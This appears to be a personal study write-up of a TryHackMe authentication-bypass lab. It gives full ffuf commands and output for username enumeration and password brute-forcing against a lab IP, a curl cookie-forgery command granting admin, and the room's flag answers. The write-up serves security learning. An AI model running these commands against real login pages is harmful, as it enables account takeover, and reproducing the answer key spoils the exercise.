

# Authentication Bypass

## Username Enumeration
- When trying to find authentication vulns it's useful to create a list of valid usernames
- Error messages are good resources for gathering information
    - Ex. If you try to sign up with a username that's already being used, the website might give an error message that says that the username is already being used. You can then fuzz that username
- The [ffuf](https://github.com/ffuf/ffuf) tool can be used to fuzz a website
    - Ex. To make a list of valid usernames on the website we can use `user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/signup -mr "username already exists"`
    - -w is the wordlist, -X is HTTP request, -d is the data being sent (place the FUZZ keyword on the parameter we want to fuzz), -H adds additional parameters, -u is the url we're testing, and -mr is the text on the page we are looking for to validate we've found a valid username
    - This can also be done with [burpsuite](../Events/Advent_Of_Cyber_2021/Day_4_Santa_Running_Behind/Santa_Running_Behind.md), but it's going to be much slower if we're not using the professional version
- Now fuzz the website and store the results in a file `user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/signup -mr "username already exists" > valid_usernames.txt`
>root@ip-10-10-141-55:~# ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/signup -mr "username already exists" > valid_usernames.txt
>
>        /'___\  /'___\           /'___\       
>       /\ \__/ /\ \__/  __  __  /\ \__/       
>       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
>        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
>         \ \_\   \ \_\  \ \____/  \ \_\       
>          \/_/    \/_/   \/___/    \/_/       
>
>       v1.3.1
>________________________________________________
>
> :: Method           : POST
> :: URL              : http://10.10.205.170/customers/signup
> :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
> :: Header           : Content-Type: application/x-www-form-urlencoded
> :: Data             : username=FUZZ&email=x&password=x&cpassword=x
> :: Follow redirects : false
> :: Calibration      : false
> :: Timeout          : 10
> :: Threads          : 40
> :: Matcher          : Regexp: username already exists
>________________________________________________
>
>:: Progress: [10164/10164] :: Job [1/1] :: 1374 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
and the file contains
>root@ip-10-10-141-55:~# cat valid_usernames.txt 
>admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
>robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77]
>simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
>steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
## Brute Force
- Now that we know the usernames that are registered, we can launch a brute force attack to find the passwords
- This can also be done with fuff `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/login -fc 200`
    - Since we're using two different wordlists, one for the usernames and one for the passwords, we need to use two different arbitrary keywords. We chose W1 and W2
    - -fc checks for HTTP status code of 200, which means that the username and password match
>root@ip-10-10-141-55:~# ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/login -fc 200
>
>        /'___\  /'___\           /'___\       
>       /\ \__/ /\ \__/  __  __  /\ \__/       
>       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
>        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
>         \ \_\   \ \_\  \ \____/  \ \_\       
>          \/_/    \/_/   \/___/    \/_/       
>
>       v1.3.1
>________________________________________________
>
> :: Method           : POST
> :: URL              : http://10.10.205.170/customers/login
> :: Wordlist         : W1: valid_usernames.txt
> :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
> :: Header           : Content-Type: application/x-www-form-urlencoded
> :: Data             : username=W1&password=W2
> :: Follow redirects : false
> :: Calibration      : false
> :: Timeout          : 10
> :: Threads          : 40
> :: Matcher          : Response status: 200,204,301,302,307,401,403,405
> :: Filter           : Response status: 200
>________________________________________________
>
>[Status: 302, Size: 0, Words: 1, Lines: 1]
>    * W2: thunder
>    * W1: steve
>
>:: Progress: [400/400] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
## Logic Flaw
- Logic flaw - when the typical logical path of an application is either bypassed, circumvented, or manipulted by a hacker
- 
- Ex. This code uses `===` to check for an exact match on the string, including letter casing. This is a logic flaw because an unauthenticated user can use different letter casing to bypass the admin check (Ex. /adMin)
>if( url.substr(0,6) === '/admin') {
>    # Code to check user is an admin
>} else {
>    # View Page
>}
## Cookie Tampering
- Examing and editing cookies can have a few outcomes:
    - Unauthenticated access
    - Access to another user's account
    - Elevated privileges
### Plain Text
- The contents of some cookies can be plaintext
- Ex. If cookie contents were:
>Set-Cookie: logged_in=true; Max-Age=3600; Path=/
>Set-Cookie: admin=false; Max-Age=3600; Path=/
    - We could use `curl -H "Cookie: logged_in=true; admin=true" http://10.10.151.48/cookie-test` to give ourselves admin access
### Hashing
- Hashing is irreversible
- Some cookies are hashed, most common methods are md5, sha256, sha512, and sha1
- Can use hash cracker like hashcat or a database like [crackstation](https://crackstation.net/)
### Encoding
- Encoding is reversible
- Most ocmmon methods are base32, base64, hex
- Ex. `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
1. THM{COOKIE_TAMPERING}
2. 463729
3. THM{BASE64_ENCODING}
4. eyJpZCI6MSwiYWRtaW4iOnRydWV9
